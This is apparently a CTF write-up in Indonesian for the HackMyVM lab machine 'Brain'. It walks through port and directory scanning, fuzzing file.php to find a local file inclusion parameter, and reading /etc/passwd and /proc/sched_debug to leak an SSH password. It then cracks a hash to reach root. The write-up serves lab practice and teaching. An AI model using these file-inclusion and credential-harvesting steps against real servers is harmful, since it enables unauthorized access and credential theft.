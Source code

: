 ```yaml
---
layout: Post
title: HackMyVM - Brain Writeup
date: 2021-10-14 08:55 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/brain.zip">Brain</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/d4t4s3c">d4t4s3c</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10477]
└─[$] nmap -A 192.168.0.5                                                                                                   
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-14 08:43 WIB
Nmap scan report for 192.168.0.5
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 32:95:f9:20:44:d7:a1:d1:80:a8:d6:95:91:d5:1e:da (RSA)
|   256 07:e7:24:38:1d:64:f6:88:9a:71:23:79:b8:d8:e6:57 (ECDSA)
|_  256 58:a6:da:1e:0f:89:42:2b:ba:de:00:fc:71:78:3d:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

## Scan Directory

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10491]
└─[$] gobuster dir -u http://192.168.0.5/  -x php,html,js,txt -w /opt/wordlist/medium.txt

===============================================================
2021/10/14 08:42:50 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/brainstorm (Status: 301)
/server-status (Status: 403)
===============================================================
2021/10/14 08:50:07 Finished
===============================================================
```

Setelah di scan disini ku scan lagi diretory brainstorm karena masih menyimpan secuil informasi yang berguna buat saya :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10478]
└─[$] gobuster dir -u http://192.168.0.5/brainstorm  -x php,html,js,txt -w /opt/wordlist/medium.txt 

===============================================================
2021/10/14 08:44:48 Starting gobuster
===============================================================
/index.html (Status: 200)
/file.php (Status: 200)
===============================================================
2021/10/14 08:51:57 Finished
===============================================================
```

Dan benar saya terdapat `file.php` yang dimana berpotensi terdapat vuln `LFI`. Oleh karena itu ku coba wfuzz untuk mendapatkan parameter tersebut :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10493]
└─[$] wfuzz -w /opt/wordlist/medium.txt --hh 0  'http://192.168.0.5/brainstorm/file.php?FUZZ=/etc/passwd'  

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                              
=====================================================================

000000759:   200        26 L     38 W       1401 Ch     "file"                                                               
```

Yap, ternyata terdapat paramater file, next ku coba lfi ke `/etc/passwd` ternyata terdapat user salomon :

```console
salomon:x:1000:1000:salomon,,,:/home/salomon:/bin/bash
```

Next selanjutnya ku `wfuzz` lagi untuk mencari tahu di parameter tersebut apa saja yang bisa di lihat :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10495]
└─[$] wget wget https://raw.githubusercontent.com/tutorial0/payloads/master/lfi.txt                                      
```
```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10495]
└─[$] wfuzz -w lfi.txt   --hh 0  'http://192.168.0.5/brainstorm/file.php?file=FUZZ' 

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                              
=====================================================================

000000001:   200        158 L    1214 W     12494 Ch    "/proc/sched_debug"                                                  
```

Karena itu ku cek `/proc/sched_debug`. Oya sebelumnya file yang bisa dilihat oleh parameter tersbut banyak tapi ku ambil yang penting aja :

```console
Ssalomon:My*****   410      3010.149453        16   120         0.000000         2.419489         0.000000 0 0 /
```

Dan ternyata terdapat password SSH , akhirnya lu login dan terdapat flag `user.txt` :

```console
salomon@Brain:~$ cat user.txt 
onS6lJ*******wZu3I8HKY8sQ
```

Next setelah itu ku coba `ss -tlpn`, ternyata ada port aneh 65000. Pas ku run ternyata menampilkan hasil dari index.htmlnya :

```console
salomon@Brain:~$ ss -tlpn
State            Recv-Q            Send-Q                       Local Address:Port                        Peer Address:Port           
LISTEN           0                 128                                0.0.0.0:22                               0.0.0.0:*              
LISTEN           0                 5                                127.0.0.1:65000                            0.0.0.0:*              
LISTEN           0                 128                                      *:80                                     *:*              
LISTEN           0                 128                                   [::]:22                                  [::]:*             
```
```console
salomon@Brain:~$ telnet 127.0.0.1 65000
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
tes
<head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>
<p>Error code 400.
<p>Message: Bad request syntax ('tes').
<p>Error code explanation: 400 = Bad request syntax or unsupported method.
</body>
Connection closed by foreign host.
```

Oleh karena itu ku coba wget dan ternyata terdapat sebuah hash. Disini ku gatau hashnya apa akhirnya ku coba crack ke `crackstation` :
```console
Hash : 065BB0B9A0C654E5B3B6292C4698BD67CE6A331209D941989EC4D728FBE3290E47D2058839215BBE6144F51E7FCE8A8C6A5626E0CB7521641D742251F5A*****
Type : SHA512   
Password : ge****
```

And boom setelah ku su akhirnya mendapatan flag root.txt nya :

```console
salomon@Brain:~$ su
Contraseña: 
root@Brain:/home/salomon# cd
root@Brain:~# ls
index.html  root.txt  run_server.sh  server.py
root@Brain:~# cat root.txt 
gmC9GR0EM*****8zCx3baoUWM
root@Brain:~# 
```
